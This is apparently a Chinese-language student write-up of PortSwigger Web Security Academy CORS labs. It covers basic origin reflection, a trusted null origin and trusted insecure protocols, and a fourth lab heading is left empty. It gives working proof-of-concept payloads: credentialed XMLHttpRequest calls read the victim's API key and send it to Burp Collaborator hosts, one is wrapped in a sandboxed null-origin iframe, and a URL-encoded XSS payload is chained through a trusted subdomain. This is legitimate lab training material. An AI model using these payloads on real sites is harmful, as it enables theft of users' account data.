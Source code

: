 [TOC]

#### 0. [Cross-origin resource sharing (CORS)](https://portswigger.net/web-security/cors)

#### 1. CORS vulnerability with basic origin reflection

```html
<script>
    fetch('/accountDetails', {credentials:'include'})
        .then(r => r.json())
        .then(j => document.getElementById('apikey').innerText = j.apikey)
</script>
```

可以看到这里的apikey是从`/accountDetails`请求到的，而且这里任何请求源都是可以的。

POC:

```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://ac791f261ef0458680a600fa00bb00c5.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location = 'https://d5j3pam6uqnw0w6b9kg06xf5vw1mpb.burpcollaborator.net/?key=' + this.responseText;
};
</script>
```

这里去请求，然后将得到的key发送给burp collaborator。

#### 2. CORS vulnerability with trusted null origin

> The specification for the Origin header supports the value `null`. Browsers might send the value `null` in the Origin header in various unusual situations:
>
> - Cross-site redirects.
> - Requests from serialized data.
> - Request using the `file:` protocol.
> - Sandboxed cross-origin requests.
>
>  An attacker can use various tricks to generate a cross-domain request containing the value `null` in the Origin header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed `iframe` cross-origin request of the form:
>
> ```html
> <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
> var req = new XMLHttpRequest();
> req.onload = reqListener;
> req.open('get','vulnerable-website.com/sensitive-victim-data',true);
> req.withCredentials = true;
> req.send();
> 
> function reqListener() {
> location='malicious-website.com/log?key='+this.responseText;
> };
> </script>"></iframe>
> ```

题目这里也是信任`Origin: null`。我们用上述的沙盒来使得origin为空。

这道题也是从`/accountDetails`处获取的key。

POC：

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://aca51f131e41e79c801a033f00ad0082.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://b6inmflbyq9n6ibgqp4fa4s8wz2pqe.burpcollaborator.net?key='+this.responseText;
};
</script>"></iframe>
```

#### 3. CORS vulnerability with trusted insecure protocols

> an attacker who is in a position to intercept a victim user's traffic can exploit the CORS configuration to compromise the victim's interaction with the application. This attack involves the following steps:
>
> - The victim user makes any plain HTTP request.
> - The attacker injects a redirection to: `http://trusted-subdomain.vulnerable-website.com`
> - The victim's browser follows the redirect.
> - The attacker intercepts the plain HTTP request, and returns a spoofed response containing a CORS request to: `https://vulnerable-website.com`
> - The victim's browser makes the CORS request, including the origin: `http://trusted-subdomain.vulnerable-website.com`
> - The application allows the request because this is a whitelisted origin. The requested sensitive data is returned in the response.
> - The attacker's spoofed page can read the sensitive data and transmit it to any domain under the attacker's control.

按照这个教程来看的话，解题顺序就是下面这样

* 找到一个包含了XSS漏洞的信任网站。

    找了半天只发现了这个网站：`http://stock.ac2f1f8c1e1546c180db554a00c400a3.web-security-academy.net/?productId=1&storeId=1`

    其他网站也没有发现XSS漏洞，反而这个网站发现了XSS漏洞。

    `http://stock.ac2f1f8c1e1546c180db554a00c400a3.web-security-academy.net/?productId=1<script>alert(1)</script>&storeId=1`

* 构造漏洞语句。

    ```html
    <script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://ac2f1f8c1e1546c180db554a00c400a3.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    
    function reqListener() {
    location='https://nd45l3xfse55vo9bqxkngzcwknqde2.burpcollaborator.net?key='+this.responseText;
    };
    </script>
    ```

    最好要删除所有的回车以及进行url编码。

    ```html
    <script>var req = new XMLHttpRequest();req.onload = reqListener;req.open('get','https://ac2f1f8c1e1546c180db554a00c400a3.web-security-academy.net/accountDetails',true);req.withCredentials = true;req.send();function reqListener() {location='https://nd45l3xfse55vo9bqxkngzcwknqde2.burpcollaborator.net?key='+this.responseText;};</script>
    
    %3c%73%63%72%69%70%74%3e%76%61%72%20%72%65%71%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%72%65%71%2e%6f%6e%6c%6f%61%64%20%3d%20%72%65%71%4c%69%73%74%65%6e%65%72%3b%72%65%71%2e%6f%70%65%6e%28%27%67%65%74%27%2c%27%68%74%74%70%73%3a%2f%2f%61%63%32%66%31%66%38%63%31%65%31%35%34%36%63%31%38%30%64%62%35%35%34%61%30%30%63%34%30%30%61%33%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%27%2c%74%72%75%65%29%3b%72%65%71%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%3b%72%65%71%2e%73%65%6e%64%28%29%3b%66%75%6e%63%74%69%6f%6e%20%72%65%71%4c%69%73%74%65%6e%65%72%28%29%20%7b%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%73%3a%2f%2f%6e%64%34%35%6c%33%78%66%73%65%35%35%76%6f%39%62%71%78%6b%6e%67%7a%63%77%6b%6e%71%64%65%32%2e%62%75%72%70%63%6f%6c%6c%61%62%6f%72%61%74%6f%72%2e%6e%65%74%3f%6b%65%79%3d%27%2b%74%68%69%73%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%7d%3b%3c%2f%73%63%72%69%70%74%3e
    ```

* 构建漏洞网页，并且构造直接访问漏洞页面的script。

    ```html
    <script> document.location = "http://stock.ac2f1f8c1e1546c180db554a00c400a3.web-security-academy.net/?productId=1%3c%73%63%72%69%70%74%3e%76%61%72%20%72%65%71%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%72%65%71%2e%6f%6e%6c%6f%61%64%20%3d%20%72%65%71%4c%69%73%74%65%6e%65%72%3b%72%65%71%2e%6f%70%65%6e%28%27%67%65%74%27%2c%27%68%74%74%70%73%3a%2f%2f%61%63%32%66%31%66%38%63%31%65%31%35%34%36%63%31%38%30%64%62%35%35%34%61%30%30%63%34%30%30%61%33%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%27%2c%74%72%75%65%29%3b%72%65%71%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%3b%72%65%71%2e%73%65%6e%64%28%29%3b%66%75%6e%63%74%69%6f%6e%20%72%65%71%4c%69%73%74%65%6e%65%72%28%29%20%7b%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%73%3a%2f%2f%6e%64%34%35%6c%33%78%66%73%65%35%35%76%6f%39%62%71%78%6b%6e%67%7a%63%77%6b%6e%71%64%65%32%2e%62%75%72%70%63%6f%6c%6c%61%62%6f%72%61%74%6f%72%2e%6e%65%74%3f%6b%65%79%3d%27%2b%74%68%69%73%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%7d%3b%3c%2f%73%63%72%69%70%74%3e&storeId=1";</script>
    ```

* 接下来就是复制到exploit server里面，然后发送出去。

#### 4. CORS vulnerability with internal network pivot attack


